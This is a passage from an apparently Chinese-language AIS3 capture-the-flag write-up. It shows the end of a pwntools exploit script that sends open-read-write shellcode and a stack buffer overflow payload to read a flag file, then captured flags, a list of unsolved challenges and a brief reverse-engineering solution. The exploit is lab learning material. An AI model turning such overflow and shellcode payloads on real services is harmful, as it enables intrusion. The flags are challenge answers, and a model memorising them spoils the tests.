 ```python

		mov al, 0x3c
		syscall

	start:
		call orw
		.ascii "/home/orw/flag"
		.byte 0
	'''
	)

print len(sc)
payload = 'A' * (32+8)
payload += p64(0x006010a0)

print r.recvline()
r.sendline(sc)

print r.recvline()
r.sendline(payload)

r.interactive()
```

```
AIS3{B4by_sh311c0d1ng_yeeeeeeeeeeeeeeeeeee_:)}
```

---
pwn還有看的就是hello這題，在之前學習pwn時，format string並沒有很懂，所以在賽中就邊摸編解地嘗試，但最後並沒有解出來。

* 沒解出來的
    * hello
    * PPAP
    * Secure bof
    * shellcode 2019
    * Box
    * Box++

## Reverse
### Trivial

簡單題，用disassembler打開來觀察，會發現驗證字串的function

<img src="https://i.imgur.com/WMN8xbI.png" width="400"/>

追進去就發現被一串切成1 byte的flag

<img src="https://i.imgur.com/NByfWMG.png" width="400"/>

```
AIS3{This_is_a_reallllllllllly_boariiing_challenge}
```
